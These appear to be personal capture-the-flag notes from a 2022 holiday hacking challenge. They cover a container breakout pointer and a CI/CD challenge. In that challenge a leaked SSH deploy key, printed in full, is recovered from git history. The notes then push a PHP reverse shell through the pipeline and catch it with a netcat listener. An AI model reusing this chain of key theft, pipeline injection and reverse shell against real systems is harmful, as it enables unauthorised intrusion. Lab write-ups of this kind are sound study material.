 # Clone with a purpose

![[Pasted image 20221208194235.png]]
![[Pasted image 20221208194447.png]]

```
git clone https://haugfactory.com/asnowball/aws_scripts.git

```

![[Pasted image 20221208194711.png]]
# Prison escape
Hint from
https://learn.snyk.io/lessons/container-runs-in-privileged-mode/kubernetes/

![[Pasted image 20221208190025.png]]
![[Pasted image 20221208192822.png]]


![[Pasted image 20221210130327.png]]

```
082bb339ec19de4935867 
```

```
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation

Section Mounting Disk - Poc1 
```

# Jolly CI/CD
![[Pasted image 20221210132309.png]]

hint 1 
Switching Hats
_From: Tinsel Upatree
Terminal: Jolly CI/CD
If you find a way to impersonate another identity, you might try re-cloning a repo with their credentials.

hint2 
Commiting to Mistakes
_From: Tinsel Upatree
Terminal: Jolly CI/CD
The thing about Git is that every step of development is accessible – even steps you didn't mean to take! `git log` can show code skeletons.

![[Pasted image 20221210131432.png]]
```
sudo git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
```
![[Pasted image 20221216103854.png]]
url from the elf outside
![[Pasted image 20221210140021.png]]

im thinking the hint may refer to doing a sudo git clone
then doing a git checkout of any mistakes 'whoops'

```
commit e2208e4bae4d41d939ef21885f13ea8286b24f05
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:43:53 2022 -0700

    big update

commit e19f653bde9ea3de6af21a587e41e7a909db1ca5
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:54 2022 -0700

    whoops
```
at big_update
![[Pasted image 20221210151026.png]]
![[Pasted image 20221210151307.png]]
mistake made in added assets and fixed in whoops
```
commit abdea0ebb21b156c01f7533cea3b895c26198c98
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:13 2022 -0700

    added assets
```

![[Pasted image 20221210153628.png]]

```
sudo git checkout abdea0ebb21b156c01f7533cea3b895c26198c98
```

go to directory with .ssh/.deploy

from here, copy ssh key, run a clone with it

```
git clone ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
```

private key
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```

Looking at this there is a file that shows a runner will update the site with anything i push to main. i can upload a php shell to the repo and the runner will add it to the site 
php shell
```
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```


```
git add 'shell.php'
git commit -m 'say something'
git push ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git main
```


type ``` screen``` to create another screen
ctrl+a CTRL+c (now have 2 screens to alternate)
nc -nvlp 1234
ctrl + a (twice?) to move back a screen
```
curl http://wordpress.flag.net.internal/shell.php
```

![[Pasted image 20221216093220.png]]

![[Pasted image 20221216093650.png]]

![[Pasted image 20221216093741.png]]


oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT